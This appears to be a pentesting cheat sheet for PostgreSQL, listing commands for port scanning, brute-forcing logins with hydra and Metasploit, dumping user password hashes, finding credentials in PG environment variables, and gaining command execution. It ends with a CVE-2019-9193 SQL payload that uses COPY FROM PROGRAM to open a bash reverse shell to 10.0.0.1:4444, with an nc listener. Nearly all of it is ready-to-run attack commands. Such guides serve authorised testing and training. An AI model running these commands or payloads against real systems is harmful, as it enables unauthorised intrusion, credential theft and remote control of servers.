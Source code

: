 ```yaml
---
title: PostgreSQL Pentesting
description: PostgreSQL a relational database management system. Default port is 5432.
tags:
    - Database
refs:
    - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md
date: 2023-06-17
draft: false
---
```


## Enumeration

```sh
nmap --script pgsql-brute -p 5432 <target-ip>
```

### Brute Force Credentials

```sh
hydra -l username -P passwords.txt <target-ip> postgres
hydra -L usernames.txt -p password <target-ip> postgres

# Metasploit
msfconsole
msf> use auxiliary/scanner/postgres/postgres_login
msf> set rhosts <target-ip>
msf> run
```

### Dump User Hashes

```sh
msfconsole
msf> use auxiliary/scanner/postgres/postgres_hashdump
msf> set rhosts <target-ip>
msf> set username <username>
msf> set password <password>
msf> run
```

<br />

## Config File

```bash
# Version 14.x
/etc/postgresql/14/main/postgresql.conf
# Version 15.x
/etc/postgresql/15/main/postgresql.conf
```

Also we may find other locations by viewing environment variables. They are prefixed by PG.

```bash
env

# Results
PGUSER=xxxx
PGPASSWORD=xxxx
PGPASSFILE=xxxx
...
```

<br />

## Connect

### Remote

```sh
# -W: Force password prompt
psql -h <target-ip> -p <target-port> -d <database> -U <username> -W
# -w: No password
psql -h <target-ip> -p <target-port> -d <database> -U <username> -w
```

<br />

## Commands in psql

```sh
# Print help
\?

# Print the version of PostgreSQL
select version();

# Display command history
\s

# List databases
\l

# Switch to the given database
\c <database_name>

# List tables
\dt

# Descibe the table information
\d <table_name>

# Get values in the table
select * from <table>;

# List all users
\du

# Exit psql shell
\q
```

<br />

## Get a Shell and Command Execution

```sh
msfconsole
msf> use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
msf> set rhosts <target-ip>
msf> set lhost <local-ip>
msf> set tablename <table_name>
msf> set username <username>
msf> set password <password>
msf> run
shell
```

<br />

## Command Injection ( [CVE-2019-9193](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-command-execution) )

To execute arbitrary command, do the following steps. We’ll perform Reverse Shell. Of course we have to start a listener (e.g. `nc -lvnp 4444`) in local machine beforehand.

```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;
```
